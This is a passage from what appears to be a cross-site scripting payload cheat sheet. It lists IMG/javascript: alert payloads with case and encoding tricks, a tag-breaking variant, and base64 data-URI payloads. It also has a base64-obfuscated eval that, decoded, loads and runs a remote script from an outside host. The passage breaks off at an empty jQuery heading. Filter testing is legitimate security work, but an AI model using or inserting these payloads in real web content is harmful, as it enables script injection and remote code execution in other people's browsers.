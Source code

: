 ```
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

```
<IMG SRC=javascript:alert("XSS")>
```

```
<IMG SRC=`javascript:alert("RSnake says,'XSS'")`>
```

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```

```
<IMG SRC=javascript:alert('XSS')>
```

### Using Data URIs: 
- https://www.paladion.net/blogs/bypass-xss-filters-using-data-uris

Base64-decoded payload: 

```
<script>alert("Hello");</script>
```

Base64-encoded payload:

```
PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI:

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
```

In data URI image:

```
data:image/gif;base64,PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpIC8+
```

### Base64 eval:

```
eval(atob('dmFyIHg9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7eC5zcmMgPSAiLy9hZXJzdC5vbmUvcC94Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw=='))
```

- From <https://aerst.one/p/xss.html> 

### jQuery:

